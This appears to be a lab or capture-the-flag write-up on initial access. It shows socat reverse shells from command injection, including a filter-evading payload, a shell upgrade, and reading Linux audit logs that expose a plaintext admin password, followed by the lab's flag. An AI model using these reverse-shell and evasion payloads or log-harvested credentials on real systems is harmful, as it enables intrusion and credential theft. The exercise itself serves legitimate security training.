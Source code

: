 # Initial Access

## Getting a Reverse Shell (from command injection)

```shell-session
socat TCP4:10.10.14.5:8443 EXEC:/bin/bash
```

**reverse shell with filter evation**

```shell-session
%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash
```

### Socat Shell upgrade

**start socat listener on host**

```shell-session
socat file:`tty`,raw,echo=0 tcp-listen:4443
```

**Command in action**

```shell-session
nc -lnvp 4443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 52174
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:4443
```

### Reading audit logs on linux

**aureport**

```shell-session
aureport --tty | less

Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
```

## Assessment

**Submit the contents of the flag.txt file in the /home/srvadm directory.**

First get a first shell

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption><p>%0a's'o'c'a't'${IFS}TCP4:10.10.14.5:8443${IFS}EXEC:bash</p></figcaption></figure>

On the attack machine we get the reverse shell connection.

```
nc -nvlp 8443
listening on [any] 8443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.129.203.114] 46988
```

Get an upgraded shell use the following command on the **attack machine**

```
socat file:tty,raw,echo=0 tcp-listen:4443
```

And the following on the **reverse shell session**.

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.5:4443
```

read the contents of the flag.txt

```
webdev@dmz01:/var/www/html/monitoring$ cat /home/srvadm/flag.txt
b447c27a00e3a348881b0030177000cd
```
